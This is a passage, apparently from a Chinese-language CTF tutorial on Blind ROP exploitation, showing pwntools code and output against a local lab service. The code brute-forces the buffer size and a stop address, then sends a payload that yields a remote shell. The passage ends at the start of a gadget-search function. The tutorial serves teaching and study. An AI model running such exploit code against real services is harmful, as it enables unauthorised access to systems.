 ```python
payload += p64(stop_addr)

p = remote('127.0.0.1', 10001)
p.recvline()
p.sendline(payload)
p.interactive()
```

Bingo!!!
```
$ python2 exp.py 
[+] Opening connection to 127.0.0.1 on port 10001: Done
[*] Switching to interactive mode
$ whoami
firmy
```

#### exploit
完整的 exp 如下：
```python
from pwn import *

#context.log_level = 'debug'

def get_buffer_size():
    for i in range(100):
        payload  = "A"
        payload += "A"*i
        buf_size = len(payload) - 1
        try:
            p = remote('127.0.0.1', 10001)
            p.recvline()
            p.send(payload)
            p.recv()
            p.close()
            log.info("bad: %d" % buf_size)
        except EOFError as e:
            p.close()
            log.info("buffer size: %d" % buf_size)
            return buf_size

def get_stop_addr(buf_size):
    addr = 0x400000
    while True:
        sleep(0.1)
        addr += 1
        payload  = "A"*buf_size
        payload += p64(addr)
        try:
            p = remote('127.0.0.1', 10001)
            p.recvline()
            p.sendline(payload)
            p.recvline()
            p.close()
            log.info("stop address: 0x%x" % addr)
            return addr
        except EOFError as e:
            p.close()
            log.info("bad: 0x%x" % addr)
        except:
            log.info("Can't connect")
            addr -= 1

def get_gadgets_addr(buf_size, stop_addr):
```